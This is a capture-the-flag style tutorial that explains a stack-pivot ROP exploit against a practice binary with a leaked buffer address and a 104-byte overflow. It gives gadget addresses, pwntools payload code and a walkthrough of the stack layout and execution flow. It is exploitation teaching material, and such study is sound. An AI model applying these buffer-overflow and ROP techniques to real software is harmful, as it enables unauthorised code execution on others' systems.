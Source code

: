 # Stack Pivot `pop rsp`

---

## 1. Vulnerability Background

The binary `vuln` contains a stack-based buffer overflow. It prints the address of a local buffer (`to: 0x7ff…`) and then reads user input into this buffer without proper bounds checking.

We know:

* Buffer size → 104 bytes from start of buffer up to saved return address (RIP).
* Binary is 64-bit (System V AMD64 calling convention).
* NX is enabled (we cannot execute shellcode directly), so we use **ROP**.
* Binary has a function `winner(int arg1, int arg2)` which we want to call with controlled arguments.

---

## 2. Important Gadgets

Using `ROPgadget` or `ROP(elf)` we found:

* **Stack pivot gadget**

  ```
  0x401225 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
  ```

  This lets us set the stack pointer (`rsp`) to a location we control (our buffer).

* **Argument control gadgets**

  ```
  0x40122b : pop rdi ; ret         # controls arg1
  0x401229 : pop rsi ; pop r15 ; ret   # controls arg2
  ```

These match the **System V AMD64 calling convention**, where:

* `rdi` = first argument
* `rsi` = second argument

---

## 3. Strategy

Since the stack pivot gadget starts with `pop rsp`, we must provide a pointer to our **fake stack**. The program already leaks the buffer’s address, so we can use that.

### Steps

1. Overflow the buffer (104 bytes).
2. Overwrite saved RIP with the **pivot gadget** (`POP_CHAIN`).
3. Provide the leaked buffer address as the next qword (so `pop rsp` pivots into our buffer).
4. Inside the buffer, build a **fake ROP chain**:

   * Feed dummy values to satisfy `pop r13 ; pop r14 ; pop r15`.
   * Use `pop rdi ; ret` to set `rdi = 0xdeadbeef`.
   * Use `pop rsi ; pop r15 ; ret` to set `rsi = 0xdeadc0de`.
   * Finally return into `winner`.

---

## 4. Payload Construction

```python
payload = flat(
    0,                 # for pop r13
    0,                 # for pop r14
    0,                 # for pop r15
    POP_RDI,
    0xdeadbeef,        # arg1
    POP_RSI_R15,
    0xdeadc0de,        # arg2
    0,                 # r15 filler
    elf.sym['winner']  # call winner(rdi, rsi)
)
```

* This chain is our **fake stack**.
* We pad it to **104 bytes** so it fills the buffer entirely:

```python
payload = payload.ljust(104, b'A')
```

* Now overwrite the saved RIP with our pivot gadget, and append the `buffer` address (needed for `pop rsp`):

```python
payload += flat(
    POP_CHAIN,   # saved RIP
    buffer       # for pop rsp
)
```

---

## 5. Final Stack Layout

```
Buffer (104 bytes):
  buffer+0x00: 0              (-> r13)
  buffer+0x08: 0              (-> r14)
  buffer+0x10: 0              (-> r15)
  buffer+0x18: POP_RDI
  buffer+0x20: 0xdeadbeef     (-> rdi)
  buffer+0x28: POP_RSI_R15
  buffer+0x30: 0xdeadc0de     (-> rsi)
  buffer+0x38: 0              (-> r15)
  buffer+0x40: winner() addr
  buffer+0x48–0x67: 'A' padding

Saved RIP:
  0x401225 (pivot: pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret)

Next stack qword:
  buffer (address of our fake chain)
```

---

## 6. Execution Flow

1. Function `ret` → RIP = `POP_CHAIN`.
2. `pop rsp` → loads `rsp = buffer`.
   🎯 stack is now pivoted into our fake chain.
3. `pop r13 ; pop r14 ; pop r15` → consume first three qwords (zeros).
4. `ret` → RIP = buffer+0x18 = `POP_RDI`.
5. `pop rdi` → `rdi = 0xdeadbeef`.
   `ret` → RIP = buffer+0x28 = `POP_RSI_R15`.
6. `pop rsi` → `rsi = 0xdeadc0de`.
   `pop r15` → dummy.
   `ret` → RIP = buffer+0x40 = `winner`.
7. Execution enters `winner(0xdeadbeef, 0xdeadc0de)`.

---

![result](./img/result.png)
